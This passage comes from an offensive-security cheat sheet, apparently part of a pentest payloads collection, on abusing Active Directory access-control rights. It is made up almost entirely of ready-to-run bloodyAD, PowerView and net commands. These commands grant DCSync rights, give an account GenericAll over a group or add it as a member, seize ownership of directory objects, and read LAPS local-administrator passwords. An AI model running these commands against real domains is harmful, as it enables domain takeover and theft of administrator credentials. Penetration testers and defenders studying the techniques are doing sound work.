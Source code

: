 		Add-DomainObjectAcl -Credential $Cred -TargetIdentity 'DC=domain,DC=local' -Rights DCSync -PrincipalIdentity user2 -Verbose -Domain domain.local 
		```
  
* WriteDACL on Group:
	* Windows/Linux:
		```ps1
		bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' add genericAll devil_user1 'cn=INTERESTING_GROUP,dc=corp'
		
		# Remove right
		bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' remove genericAll devil_user1 'cn=INTERESTING_GROUP,dc=corp'
		```
	* Windows only:
		```ps1
		# Using native command
		net group "INTERESTING_GROUP" User1 /add /domain
		# Or with external tool
		PowerSploit> Add-DomainObjectAcl -TargetIdentity "INTERESTING_GROUP" -Rights WriteMembers -PrincipalIdentity User1
		```

## WriteOwner

An attacker can update the owner of the target object. Once the object owner has been changed to a principal the attacker controls, the attacker may manipulate the object any way they wants. 
* Windows/Linux:
	```ps1
	bloodyAD --host my.dc.corp -d corp -u devil_user1 -p 'P@ssword123' set owner target_object devil_user1
	```
* Windows only:
	```ps1
	Powerview> Set-DomainObjectOwner -Identity 'target_object' -OwnerIdentity 'controlled_principal'
	```

This ACE can be abused for an Immediate Scheduled Task attack, or for adding a user to the local admin group.

## ReadLAPSPassword

An attacker can read the LAPS password of the computer account this ACE applies to.
* Windows/Linux:
	```ps1
	bloodyAD -u john.doe -d bloody.lab -p Password512 --host 192.168.10.2 get search --filter '(ms-mcs-admpwdexpirationtime=*)' --attr ms-mcs-admpwd,ms-mcs-admpwdexpirationtime
	```
* Windows only:
	```ps1
	Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'
	```
